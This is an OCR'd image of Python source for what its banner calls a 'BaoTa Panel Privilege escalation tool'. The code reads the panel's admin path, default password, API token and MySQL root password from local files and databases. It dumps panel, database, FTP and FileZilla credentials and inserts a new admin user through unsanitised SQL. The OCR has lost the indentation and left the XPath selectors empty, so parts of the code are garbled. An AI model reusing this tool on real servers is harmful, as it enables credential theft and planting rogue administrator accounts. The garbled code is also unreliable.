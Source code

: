 ```
def md5(string):
import hashlib
return hashlib.md5(string.encode()).hexdigest()
def hash_password(self, password, salt):
return self.md5(self.md5(self.md5(password) + '_bt.cn') + salt)
def get_panel_path(self):
return self.read_file('C:/BtSoft/panel/data/admin_path.pl')
def get_default_username(self):
        cursor = self.c.execute('select username from users where id=1')
return cursor.fetchone()[0]
def get_default_password(self):
return self.read_file('C:/BtSoft/panel/data/default.pl')
def get_all_user(self):
        cursor = self.c.execute('select username, password, salt from users')
return cursor.fetchall()
def get_api_information(self):
import json
        api_data = json.loads(self.read_file('C:/BtSoft/panel/config/api.json'))
if api_data['open']:
            token = api_data['token']
            limit_ip = api_data['limit_addr']
return f'Token：{token}, 限制IP：{limit_ip}'
else:
return '未开启api'
def get_mysql_root_password(self):
        cursor = self.c.execute('select mysql_root from config')
return cursor.fetchone()[0]
def insert_panel_user(self, username, password, salt):
        password = self.hash_password(password, salt)
try:
            sql = f"INSERT INTO users (username,password,salt,email) VALUES ('{username}', '{password}', '{salt}', 'admin@qq.com')"
            self.c.execute(sql)
            self.conn.commit()
return '写入成功！'
except sqlite3.OperationalError:
return '写入失败。'
def get_database_users(self):
        cursor = self.c.execute('select name, username, password, type from databases')
return cursor.fetchall()
def get_ftp_users(self):
        cursor = self.c.execute('select name, password from ftps')
return cursor.fetchall()
def get_filezilla_interface(self):
from xml.etree.ElementTree import fromstring
        ftp_xml = ''
try:
            ftp_xml = self.read_file('C:/BtSoft/ftpServer/FileZilla Server Interface.xml')
            root = fromstring(ftp_xml)
            server = root.findall('./Settings/Item[@]')[0].text
            port = root.findall('./Settings/Item[@]')[0].text
            password = root.findall('./Settings/Item[@]')[0].text
return f'已安装！\n{server}:{port} 密码：{password}'
except FileNotFoundError:
return '未安装Filezilla'
def banner():
    print('''  _____________________________________
/ BaoTa Panel Privilege escalation tool \\
\\ Author: https://github.com/Hzllaga    /
  -------------------------------------
         \\   ^__^ 
          \\  (oo)\\_______
             (__)\\       )\\/\\
```